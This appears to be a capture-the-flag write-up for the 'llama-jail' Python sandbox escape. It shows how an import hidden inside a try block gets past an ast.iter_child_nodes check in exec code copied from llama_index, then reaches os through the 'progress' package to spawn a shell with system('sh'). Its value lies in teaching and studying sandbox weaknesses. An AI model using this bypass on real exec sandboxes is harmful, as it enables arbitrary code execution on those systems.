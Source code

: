 # llama-jail

yet another jail by other quasar

## challenge

I was sent this cool library by a friend of mine, and found some bugs in their "safe" exec function. Can you too find the fun escape?

see [llama-jail.zip](./llama-jail.zip)

## (unintended) solution

we take a look at the challenge and see the commented out statement 

```py
# code from https://github.com/run-llama/llama_index/blob/35afb6b93476ef4f4d61a48d847cd0b191ac5cb6/llama-index-experimental/llama_index/experimental/exec_utils.py
# was main at the time of writing chall, however commit provided incase of changes
```

the `exec_util.py` file is pretty much exactly the same as the one found in the llama repo

at this point i had no clue what to do because it appeared that all imports were banned and most useful builtins were also banned. luckily, there was an unintended solution and a revenge chall was created.

i just diffed the revenge with the original and saw that the revenge replaces ast.iter_child_nodes with ast.walk

so other quasar did not realize that the source code that was ripped from llama repo used ast.iter_child_nodes, meaning any imports done in another block that is not the module would work (iter child nodes only does the direct children of a node)

this is show below

```py
def _contains_protected_access(code: str) -> bool:
    # do not allow imports
    imports_modules = False
    tree = ast.parse(code)
    for node in ast.iter_child_nodes(tree):
        if isinstance(node, ast.Import):
            imports_modules = True
        elif isinstance(node, ast.ImportFrom):
            imports_modules = True
        else:
            continue

    dunder_visitor = DunderVisitor()
    dunder_visitor.visit(tree)

    for vulnerable_code_snippet in vulnerable_code_snippets:
        if vulnerable_code_snippet in code:
            dunder_visitor.has_access_to_disallowed_builtin = True

    return (
        dunder_visitor.has_access_to_private_entity
        or dunder_visitor.has_access_to_disallowed_builtin
        or imports_modules
    )
```

we can just use a try except to enter a different block

my payload so far is below

```py
try:
    # import something here idk
    pass
except:
    pass
#EOF
```

also i saw that the Dockerfile was as below

```py
FROM python:slim AS app
RUN pip install --no-cache-dir progress

FROM pwn.red/jail
COPY --from=app / /srv
COPY chall.py /srv/app/run
RUN chmod +x /srv/app/run
COPY exec_utils.py /srv/app/exec_utils.py
COPY flag.txt /srv/flag.txt
# apparently im bad at docker so i stole this from kmh
RUN chmod 444 /srv/flag.txt && mv /srv/flag.txt /srv/flag.`tr -dc A-Za-z0-9 < /dev/urandom | head -c 20`.txt
ENV JAIL_MEM=20M
```

interestingly, the package `progress` is installed.

taking a look at the [source code](https://github.com/verigak/progress/blob/master/progress/bar.py), we can see that the bar.py imports `sys` at the top

![bar py img](https://github.com/quasar098/pyjail-collection/assets/70716985/19b886de-a659-4f15-b432-da5b356bc7c9)

so, now my payload is

```py
try:
    from progress.bar import sys
    sys.modules['\x5f\x5fbuiltins\x5f\x5f'].breakpoint()
except:
    pass
#EOF
```

however, the DunderVisitor does not allow us to use any attributes which have the same name as a banned builtins attribute

```py
class DunderVisitor(ast.NodeVisitor):
    def __init__(self) -> None:
        self.has_access_to_private_entity = False
        self.has_access_to_disallowed_builtin = False

        builtins = globals()["__builtins__"].keys()
        self._builtins = builtins

    def visit_Name(self, node: ast.Name) -> None:
        if node.id.startswith("_"):
            self.has_access_to_private_entity = True
        if node.id not in ALLOWED_BUILTINS and node.id in self._builtins:
            self.has_access_to_disallowed_builtin = True
        self.generic_visit(node)

    def visit_Attribute(self, node: ast.Attribute) -> None:
        if node.attr.startswith("_"):
            self.has_access_to_private_entity = True
        if node.attr not in ALLOWED_BUILTINS and node.attr in self._builtins:
            self.has_access_to_disallowed_builtin = True
        self.generic_visit(node)
```

so we can just use `os` module and spawn a shell

```py
try:
    from progress.bar import sys
    print(sys.modules['os'].system('sh'))
except:
    pass
#EOF
```

we use this on remote to get the flag
